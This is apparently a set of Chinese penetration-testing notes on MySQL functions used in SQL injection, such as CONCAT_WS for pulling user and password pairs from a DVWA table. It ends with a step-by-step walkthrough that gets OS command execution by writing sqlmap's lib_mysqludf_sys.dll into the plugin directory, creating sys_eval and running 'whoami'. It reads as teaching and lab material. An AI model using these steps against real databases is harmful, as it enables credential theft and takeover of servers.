 Table of Contents                                  
=================                                  

  * [1 数据库函数](#1-数据库函数)                        
     * [1.1 字符串函数](#11-字符串函数)                  
        * [ASCII()](#ascii)                    
        * [CHAR_LENGTH()](#char_length)        
        * [CONCAT()](#concat)                  
        * [CONCAT_WS()](#concat_ws)            
        * [MID()](#mid)                        
     * [1.2 系统信息函数](#12-系统信息函数)                
        * [CONNECTION_ID()](#connection_id)    
        * [CURRENT_USER()](#current_user)      
        * [DATABASE()](#database)              
        * [VERSION()](#version)                
  * [2 执行系统命令](#2-执行系统命令)                      
  * [参考资料](#参考资料)                              

----

## 1 数据库函数

### 1.1 字符串函数

#### ASCII()

返回字符串第一个字符的 ascii 值，同 ORD()

![1566728424917](assets/1566728424917.png) 

#### CHAR_LENGTH()

返回字符串的字符数

```mysql
select char_length('droplet')x;
select char_length((select user from mysql.user limit 0,1))x;
```

![1566723511928](assets/1566723511928.png) 

#### CONCAT()

合并多个字符串

```mysql
select concat('awesome','cool')x;
```

![1566725624714](assets/1566725624714.png) 

#### CONCAT_WS()

与前者相同，但第一个字符串可以当作分隔符

```mysql
select concat_ws('::',user,password)x from dvwa.users;
```

![1566725644829](assets/1566725644829.png) 

#### MID()

截取字符串，与 SUBSTRING()，SUBSTR() 相同

```mysql
select mid('admin',2,1);   # 从第2个位置开始截取1个字符
```

![1566726127555](assets/1566726127555.png) 

### 1.2 系统信息函数

#### CONNECTION_ID()

返回服务器连接 id

![1566728072087](assets/1566728072087.png) 

使用 `show full processlist` 查看当前所有连接

![1566728152953](assets/1566728152953.png)

#### CURRENT_USER()

返回当前用户，同 SESSION_USER()、SYSTEM_USER()、USER()

![1566728684947](assets/1566728684947.png) 

#### DATABASE()

返回当前数据库名

![1566728718132](assets/1566728718132.png) 

#### VERSION()

返回数据库版本号

![1566728851730](assets/1566728851730.png) 

----

## 2 执行系统命令

**udf.dll 存放位置分为2种情况：**

1. MySQL 版本大于5.1：
   udf.dll 文件必须放在 MySQL 安装目录的lib\plugin文件夹下。
2. MySQL版本小于5.1：
   Win 2000 的服务器，需要将 udf.dll 文件导到 C:\Winnt\udf.dll 下。
   Win2003 服务器，要将 udf.dll 文件导出在 C:\Windows\udf.dll 下。

sqlmap 自带了 udf.dll 文件在 sqlmap/udf/ 中，但文件经过编码，无法直接使用，可以通过 sqlmap/extra/cloak/cloak.py 解码后使用

```
python cloak.py -d -i ..\..\udf\mysql\windows\64\lib_mysqludf_sys.dll_
```



**查看相关信息：**

```mysql
select @@plugin_dir;
select @@version_compile_os;
```

![1566737605785](assets/1566737605785.png) 

**使用 `into dumpfile` 写入**

**对 lib_mysqludf_sys.dll 文件内容进行16进制编码**：

```mysql
select hex(load_file('D:\\Pentest Tools\\sqlmap\\udf\\mysql\\windows\\64\\lib_mysqludf_sys.dll'))
```

![1566739220944](assets/1566739220944.png) 

**复制编码内容，写入文件**：

```mysql
select unhex('16进制内容') into dumpfile 'D:\\www\\mysql56\\lib\\plugin\\udf.dll';
```

**创建函数：**

```mysql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

**执行命令：**

```mysql
select sys_eval('whoami');
```

![1566743432214](assets/1566743432214.png) 

----

## 参考资料

> https://www.runoob.com/mysql/mysql-functions.html
>
> https://www.freebuf.com/column/210196.html